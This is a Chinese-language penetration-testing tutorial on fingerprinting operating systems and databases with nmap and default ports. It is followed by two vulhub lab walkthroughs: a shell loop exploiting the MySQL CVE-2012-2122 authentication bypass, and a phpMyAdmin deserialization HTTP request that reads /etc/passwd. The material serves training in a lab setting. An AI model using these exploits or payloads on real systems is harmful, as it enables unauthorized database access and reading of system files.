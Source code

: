 ## 基础入门-系统及数据库等

```
前言：除去前期讲到过的搭建中间件、网站源码外，容易受到攻击的还有操作系统、数据库、第三方软件平台等，其中此类攻击也能直接影响到WEB或服务器的安全，导致网站或服务器权限的获取
```

![导图](imgs\导图.png)

### 本节内容

- 操作系统层面

  - 识别操作系统常见方法

    ```
    如果对方有网站可以根据网站来识别，如果没网站则通过扫描相关东西来识别
    ```

    - 有网站

      **windows服务器大小写不敏感，Linux服务器大小写敏感**

      ```
      例子：
      访问http://xiaodi8.com/hacK/和
      访问http://xiaodi8.com/hack/的结果相同，
      则说明xiaodi8.com的服务器的操作系统是windows的
      ```

    - 没有网站

      利用nmap来进行扫描

      命令```sudo namp -O 47.75.212.155```

      ![nmap扫描](imgs\nmap扫描.png)

  - 简要了解两者区别及识别意义

    ```
    这两个操作系统在操作、命令、设置、安全方面都有很大的区别，最主要的区别就是网站的路径问题，windows中有c盘d盘f盘等等，在Linux上没有这个东西，Linux和Windows在大小写方面也有不同，有的产品只能在Linux或者只能在Windows上运行……
    
    识别的意义：知道是什么操作系统之后，在后面的测试过程中，要围绕操作系统支持的方面发展
    ```

  - 操作系统层面漏洞类型对应意义

    ```
    有一些漏洞对于我们来讲没有很大的意义，因为这些漏洞只是产生一些危害，而不会造成权限的丢失，例如DDOS攻击，只是影响服务器的服务，而不会造成权限的丢失
    ```

  - 简要操作系统层面漏洞影响范围



- 数据库层面

  - 识别数据库类型的常见方法

    - 小型数据库access
    - 中型数据库mysql
    - 大型数据库sql server

    根据网站的常见搭建组合判断

    ```
    ASP + Access
    php + mysql
    aspx + mssql
    jsp + mssql, oracle
    python + mongodb
    ……
    ```

    通过操作系统判断，access、mssql不支持Linux

    利用端口扫描，端口在扫描的时候会扫描端口的开放情况，数据库在运行的时候会开放一个默认端口

    ```
    mysql:3306
    sqlserver:1433
    oracle:1521
    mongodb:27017
    Redis:6379
    db2:5000
    ```

    ![namp扫描2](imgs\namp扫描2.png)

  - 数据库类型区别及识别意义

    ```
    数据库的不同，它们的安全机制、写法结构也会不同
    不同的数据库的攻击方法、漏洞的影响都会有相应的差异
    ```

  - 数据库常见漏洞类型及攻击方式

  - 简要数据库层面漏洞影响范围

    ```
    数据库是用来存储网站数据的，包括用户数据，
    
    得到对方的数据后能干嘛？得到管理员数据，则可以尝试登录网站后台，得到用户数据，可以尝试登录用户账号，登录之后不仅可以读取，还可以进行修改
    
    通过数据库操作可以进行相关漏洞攻击，有可能获得数据库权限，甚至获得网站权限
    ```



- 第三方层面
  - 如何判断有哪些第三方平台或软件
  - 简要为什么要识别第三方平台或软件
  - 常见第三方平台或软件漏洞类型及攻击
  - 简要第三方平台或软件安全测试的范围



- 补充

  除去常规WEB安全及APP安全测试外，类似服务器单一或复杂的其他服务（邮件、游戏、负载均衡等），也可以作为安全测试目标，此类目标测试原则只是少了WEB应用或其他安全问题。所以需要根据服务器上的服务来选取攻击方式，明确安全测试思路是很重要的！



- 课程安排->漏洞技术->WEB层面，系统层面，第三方等其他



### 本节案例

- 某数据库弱口令及漏洞演示（vulhub/mysql/CVE-2012-2122身份认证绕过漏洞复现）

  - 打开配置好的vulhub靶机，搭建靶场环境

    进入环境目录

    ```
    cd vulhub/mysql/CVE_2012-2112/
    ```

    环境编译

    ```
    sudo docker-compose build 
    ```

    环境搭建

    ```
    sudo docker-compose up -d
    ```
  
  - 漏洞复现

    获取靶机ip地址
  
    ![case1](imgs\case1.png)
  
    打开kail进行验证
  
    使用nmap进行扫描，可以发现服务器上有mysql 5.5.23，说明环境搭建成功。
  
    ![case2](C:\Users\26554\Desktop\xiaodi-master\05.SystemAndDatabase\imgs\case2.png)
  
    使用批处理命令远程登录mysql
  
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```
  
    ![case3](C:\Users\26554\Desktop\xiaodi-master\05.SystemAndDatabase\imgs\case3.png)
  
    登录成功，漏洞复现完成，删除环境
  
    ```
    sudo docker-compose down -v
    ```
  
- 某第三方应用安全漏洞演示（vulhub/phpmyadmin/WooYun-2016-199433反序列化漏洞复现）

  - 打开配置好的vulhub靶机，搭建靶场环境

    进入环境目录

        cd vulhub/phpmyadmin/WooYun-2016-199433/

     环境编译
    
        sudo docker-compose build 

    
环境搭建
    
        sudo docker-compose up -d
    
- 漏洞复现
  
    发送如下数据包，即可读取```/etc/passwd```:
  
    ```
    POST /scripts/setup.php HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 80
    
    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
    ```
  
    ![case4](imgs\case4.png)
  
    文件访问成功，漏洞复现完成，删除环境
  
    ```
    sudo docker-compose down -v
    ```



### 总结

我们的攻击是多层面的，哪一个层面有漏洞就可以成为一个攻击方向



补充：

服务器有数据库但nmap扫不到数据库端口的情况

```
服务器上装了防护软件，防止我们探测
对方的服务器放在内网上，只将80端口放到外网映射
```

